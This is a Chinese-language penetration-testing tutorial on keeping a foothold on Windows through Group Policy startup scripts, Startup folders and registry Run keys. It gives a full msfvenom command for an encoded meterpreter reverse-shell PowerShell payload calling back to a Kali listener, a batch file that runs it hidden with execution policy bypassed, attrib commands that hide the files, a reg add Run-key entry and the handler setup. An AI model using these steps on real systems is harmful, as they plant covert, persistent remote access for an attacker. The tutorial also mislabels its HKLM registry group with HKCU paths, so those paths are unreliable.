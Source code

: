 # 启动项目维持

启动项目， 就是开机的时候系统会在前台或者后台运行的程序。当操作系统完成登录过程， 进程表中出现了很多的 进程。操作系统在启动的时候， 自动加载了很多程序。许多程序的自启动， 给我们带来了很多方便， 这是不争的事 实， 但不是每个自启动的程序对我们都有用； 更甚者， 也许有病毒或木马在自启动行列。

## 组策略维持

### 一、组策略介绍

介绍： 组策略 (英语： Group Policy) 是微软Windows NT家族操作系统的一个特性， 它可以控制用户帐户和计算 机帐户的工作环境。组策略提供了操作系统、应用程序和活动目录中用户设置的集中化管理和配置。组策略的其中 一个版本名为本地组策略 (缩写“LGPO”或“LocalGPO”) ， 这可以在独立且非域的计算机上管理组策略对象。

原理： 在组策略中添加Payload， 利用组策略的自启动策略来加载Payload文件

### 二、组策略所在位置

#### 1、在运行框中输入“`gpedit.msc` ”， 点击确定或者直接按键盘上的回车键， 打开组策略

![img](https://image.201068.xyz/assets/clip_image001.jpg)

#### 2、在【Windows设置】->【脚本(启动/关机)】双击【启动】就可以进行设置

![img](https://image.201068.xyz/assets/clip_image002.jpg)

#### 3、选择要添加的脚本或者PowerShell

![img](https://image.201068.xyz/assets/clip_image003.jpg)



### 三、利用方式

1、我么使用msf生成一段PowerShsell进行测， 试将生成的PowerShell脚本写入本地策略组中【还不会生成的请阅 读之前的内容】

####  ( 1) 机器名和IP地址如下：

| 机器名称             | **IP**地址    |
| -------------------- | ------------- |
| Windows Server  2008 | 192.168.1.141 |
| Kali                 | 192.168.1.142 |

####  ( 2) kali 生成powershell

```
 msfvenom -p windows/x64/meterpreter/reverse_http -e x86/shikata_ga_nai -i 15 -b '\x00 '  lhost=192.168.1.142 lport=3333 -f  psh -o shell.ps1  
```

####  ( 3) 将生成的powershell下载到2008机器上

使用 `python -m SimpleHTTPServer 8000`![img](https://image.201068.xyz/assets/clip_image006-16838977011752.gif)命令传递

![img](https://image.201068.xyz/assets/clip_image007-16838977011753.jpg)

####  (4) 创建一个1.bat脚本， 并且添加到组策略【脚本】 中

![img](https://image.201068.xyz/assets/clip_image009.gif)

bat脚本内容如下：

```
@echo off
powershell.exe -w hidden  -ExecutionPolicy Bypass -NoExit  -File  C:\Users\Administrator\Desktop\keep\shell.ps1  exit
```

```
-w 隐藏窗口
-ExecutionPolicy Bypass 绕过策略
-NoExit 不推出
```

##### attrib隐藏shell.ps1和1.bat文件

```
#attrib隐藏
attrib +s +h 1.bat
attrib +s +h shell.ps1

#attrib还原
attrib -s -h 1.bat
attrib -s -h shell.ps1
```

添加到组策略开机启动中：

![img](https://image.201068.xyz/assets/clip_image010.jpg)

####  ( 5) kali运行msf进行监听

```
use exploit/multi/handler  
set payload  windows/x64/meterpreter/reverse_http  
set LHOST 192.168.1.142  
set LPORT 3333  
run 
```

####  ( 6) 重启2008机器查看是否已经连接

![img](https://image.201068.xyz/assets/clip_image012-16838977011754.gif)

## 启动文件夹维持    

### 一、启动文件夹介绍

启动文件夹可以使程序在开始时候自动启动。将需要开机自动启动的程序复制到开始菜单——所有程序——启动的 文件夹内， 可以将开机程序自动启动。

### 二、启动文件夹位置

```
启动文件夹:  
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup   #系统级，需要system权限  
C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup #用户级 普通用户就可以
组策略脚本启动文件夹：  
C:\Windows\System32\GroupPolicy\Machine\Scripts\Startup
C:\Windows\System32\GroupPolicy\Machine\Scripts\Shutdown  
C:\Windows\System32\GroupPolicy\User\Scripts\Logon  
C:\Windows\System32\GroupPolicy\User\Scripts\Logoff  
```

### 三、利用方式

将需要启动的文件放入就好， 不会的去上面看

## 注册表维持

### 一、注册表介绍

注册表 ( Registry， 繁体中文版Windows操作系统称之为登录档) 是Microsoft Windows中的一个重要的数据库 ， 用于存储系统和应用程序的设置信息。早在Windows 3.0推出OLE技术的时候， 注册表就已经出现。随后推出的   Windows NT是第一个从系统级别广泛使用注册表的操作系统。但是， 从Microsoft Windows 95操作系统开始， 注 册表才真正成为Windows用户经常接触的内容， 并在其后的操作系统中继续沿用。

### 二、注册表位置

1、在运行框中输入“`regedit` ”， 点击确定或者直接按键盘上的回车键， 打开组策略

### 三、利用方式

#### 1、Windows注册表存在的自启动后门较多， 

此类后门主要利用原理为将Payload文件植入具备自启动特性的注册 表中， 这样Payload就会在计算机启动过程被执行。此处以较为经典的两类自启动项进行说明演示

```
# HKEY_LOCAL_MACHINE类  
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx 
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce

# HKEY_CURRENT_USER类  
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run 
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce  
HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce 
```

#### 2、本次实验利用方式是， 使用`reg add` 命令进行添加， 命令介绍如下

```
REG ADD KeyName [/v ValueName | /ve] [/t Type] [/s Separator] [/d Data] [/f]
        [/reg:32 | /reg:64]

  KeyName  [\\Machine\]FullKey
           Machine  远程机器名 - 忽略默认到当前机器。远程机器上
                    只有 HKLM 和 HKU 可用。
           FullKey  ROOTKEY\SubKey
           ROOTKEY  [ HKLM | HKCU | HKCR | HKU | HKCC ]
           SubKey   所选 ROOTKEY 下注册表项的完整名称。

  /v       所选项之下要添加的值名称。

  /ve      为注册表项添加空白值名称(默认)。

  /t       RegKey 数据类型
           [ REG_SZ    | REG_MULTI_SZ | REG_EXPAND_SZ |
             REG_DWORD | REG_QWORD    | REG_BINARY    | REG_NONE ]
           如果忽略，则采用 REG_SZ。

  /s       指定一个在 REG_MULTI_SZ 数据字符串中用作分隔符的字符
           如果忽略，则将 "\0" 用作分隔符。

  /d       要分配给添加的注册表 ValueName 的数据。

  /f       不用提示就强行覆盖现有注册表项。

 /reg:32  指定应该使用 32 位注册表视图访问的注册表项。

 /reg:64  指定应该使用 64 位注册表视图访问的注册表项。
```

#### 3、根据上述的提示， 我们将【 1.bat】添加到注册中， 进行启动

![img](https://image.201068.xyz/assets/clip_image018-16838977011765.gif)

使用如下命令

```
reg add  "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run"  /v shell /t REG_SZ /d "C:\Users\Administrator\Desktop\keep\1.bat"  
```

![img](https://image.201068.xyz/assets/clip_image020.gif)

#### 4、测试能不能到kali进行连接

![img](https://image.201068.xyz/assets/clip_image021-16838977011766.jpg)